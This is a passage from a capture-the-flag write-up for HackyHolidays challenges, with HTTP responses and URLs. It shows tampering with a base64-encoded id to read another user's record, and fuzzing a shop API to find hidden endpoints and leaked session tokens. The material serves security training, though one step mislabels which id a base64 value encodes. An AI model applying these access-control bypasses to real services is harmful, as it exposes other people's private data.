 Response: 
```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 15 Dec 2020 03:47:29 GMT
Content-Type: application/json
Connection: close
Content-Length: 57

{"id":"eyJpZCI6Mn0=","name":"Tea Avery","rating":"Awful"}
```

In the request, we see the parameter `id=eyJpZCI6Mn0=` which is an encoded base64 string. Decoding it reveals `{"id":2}`. Simply replacing the value with the base64 encoded variant of `{"id":2}`, which is `eyJpZCI6MX0=` leads to the following response:
```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 15 Dec 2020 03:51:22 GMT
Content-Type: application/json
Connection: close
Content-Length: 135

{"id":"eyJpZCI6MX0=","name":"The Grinch","rating":"Amazing in every possible way!","flag":"flag{b705fb11-fb55-442f-847f-0931be82ed9a}"}
```
## Flag 4 Swag Shop: flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}
The objective of this challenge is to pull the Grinch's details from the online shop. We are presented with an online shop that has an API. We can fuzz the API and find the following two hidden endpoints:
```
/swag-shop/api/sessions
/swag-shop/api/user
```
The first endpoint reveals 7 different base64-encoded session tokens. One of the tokens is longer than the others. Decoding it reveals:
```
{"user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}
```
Here, we have a Universal Unique Identifier (UUID) and a cookie. 
Taken a look at the `/swag-shop/api/user` endpoint results in:
```
error	"Missing required fields"
```
So here, we are searching for a parameter. By manual testing with the information that we already collected we can identify uuid as a parameter. Requesting `/swag-shop/api/user?uuid=1` responds with: 
```
error	"Could not find matching uuid"
```
Simply appending the UUID to the URI we found previously and accessing 
`https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043` we can pull the Grinch's details and a flag.
```	
uuid	"C7DCCE-0E0DAB-B20226-FC92EA-1B9043"
username	"grinch"
address	
line_1	"The Grinch"
line_2	"The Cave"
line_3	"Mount Crumpit"
line_4	"Whoville"
flag	"flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"
```
